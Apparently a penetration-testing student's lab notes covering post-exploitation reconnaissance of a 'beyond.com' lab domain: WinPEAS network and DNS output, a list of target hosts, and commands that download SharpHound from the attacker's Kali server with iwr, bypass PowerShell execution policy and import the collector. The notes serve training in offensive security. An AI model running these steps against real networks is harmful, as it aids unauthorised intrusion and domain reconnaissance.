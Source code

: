 ##### Network Interfaces, Known hosts, and DNS Cache
```hlt:8,9,15
����������͹ Network Ifaces and known hosts
� The masks are only for the IPv4 addresses 
    Ethernet0[00:50:56:8A:0F:27]: 172.16.6.243 / 255.255.255.0
        Gateways: 172.16.6.254
        DNSs: 172.16.6.240
        Known hosts:
          169.254.255.255       00-00-00-00-00-00     Invalid
          172.16.6.240          00-50-56-8A-08-34     Dynamic
          172.16.6.254          00-50-56-8A-DA-71     Dynamic
          172.16.6.255          FF-FF-FF-FF-FF-FF     Static
...

����������͹ DNS cached --limit 70--
    Entry                                 Name                                  Data
dcsrv1.beyond.com                     DCSRV1.beyond.com                     172.16.6.240
    mailsrv1.beyond.com                   mailsrv1.beyond.com                   172.16.6.254
```
- DNS entries for **mailsrv1.beyond.com** and **dcsrv1.beyond.com** are cached on CLIENTWK1
	- Assume **dcsrv1.beyond.com** is DC 

Create `computers.txt` to track internal machines and additional info.

List containing the most important information about identified target machines
```hlt:1
kali@kali:~/beyond$ cat computer.txt                                        
172.16.6.240 - DCSRV1.BEYOND.COM
-> Domain Controller

172.16.6.254 - MAILSRV1.BEYOND.COM
-> Mail Server
-> Dual Homed Host (External IP: 192.168.50.242)

172.16.6.243 - CLIENTWK1.BEYOND.COM
-> User _marcus_ fetches emails on this machine
```

Reviewing rest of WinPEAS, but no actionable privilege escalation vectors discovered.

#### Enumerating AD with BloodHound and SharpHound Collector

Copy #sharphound to `/beyond` directory and serve up with #pythonhttpserver 

`cp ~/Tools/AD-Enumeration/SharpHound/SharpHound.ps1` .

Download #sharphound on target machine and import  BloodHound collector
```hlt:2,4,10
PS C:\Users\marcus> iwr -uri http://192.168.119.5:8000/SharpHound.ps1 -Outfile SharpHound.ps1
iwr -uri http://192.168.119.5:8000/SharpHound.ps1 -Outfile SharpHound.ps1

PS C:\Users\marcus> powershell -ep bypass
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Users\marcus> . .\SharpHound.ps1
. .\SharpHound.ps1
```
